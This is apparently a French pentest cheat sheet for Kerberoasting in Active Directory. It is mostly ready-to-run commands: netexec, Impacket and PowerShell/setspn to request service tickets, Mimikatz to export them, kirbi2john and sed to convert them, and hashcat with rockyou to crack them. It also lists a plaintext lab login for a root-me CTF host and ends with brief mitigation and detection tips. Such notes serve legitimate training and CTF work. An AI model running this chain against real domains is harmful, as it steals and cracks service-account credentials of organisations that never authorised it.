 
> [!tip]
> Besoin d'un compte utilisateur valide
> Demande les userSPNs puis requeter TGS


# Linux

## *Netexec*

```bash
nxc ldap ctf05.root-me.org -u pentest -p Pent3st123! -d <domain> --kdcHost ctf05.root-me.org --kerberoasting SPNs.txt
```

## *Impacket* (**avec* *TGT* *en* *cache*)

```bash
impacket-GetUserSPNs -no-pass -k -dc-ip ctf05.root-me.org -target-domain <domain> rootme.local/pentest -outputfile SPNs.txt
```

## Crack du hash avec [[HASHCAT]]

```bash
hashcat -m 13100 SPNs /usr/share/wordlists/rockyou.txt
```


# Windows

## 1. SETSPN (NATIF)

### Afficher les SPN

```cmd
setspn.exe -Q */*
```

### Target un user (demande un tgs pour le user)

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

### Target tous les users possibles (demande un tgs pour tous les users vulnérables)

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extraire les tickets forgés avec Mimikatz (en base64)

```cmd-session
base64 /out:true
kerberos::list /export
```

### Mettre le base64 au bon format (supprime les espaces et retour ligne)

```shell-session
echo "<base64 blob>" |  tr -d \\n
```

### Placer le base64 dans un fichier au format kirbi

```shell-session
echo "<base64>" | base64 -d > sqldev.kirbi
```

### Mettre le ticket au format john

```shell-session
kirbi2john.py sqldev.kirbi > crack_file
```

### Puis mettre au format hashcat

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Crack du hash avec Hashcat

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```



## 2. [[POWERVIEW#1. KERBEROASTING|Méthode avec POWERVIEW]]

## 3. [[RUBEUS#KERBEROASTING#Kerberoasting sur un user X-Forest|Méthode avec RUBEUS (DOWNGRADE RC4)]]



---


# MITIGATION & DETECTION


1. Utiliser les gMSA et MSA
2. Logs le nombre anormal de requêtes de TGS (computer Configuration -> Security Settings -> Advanced Audit Policy Configuration -> Audit Policies -> Account Logon -> Audit Kerberos Authentication service )











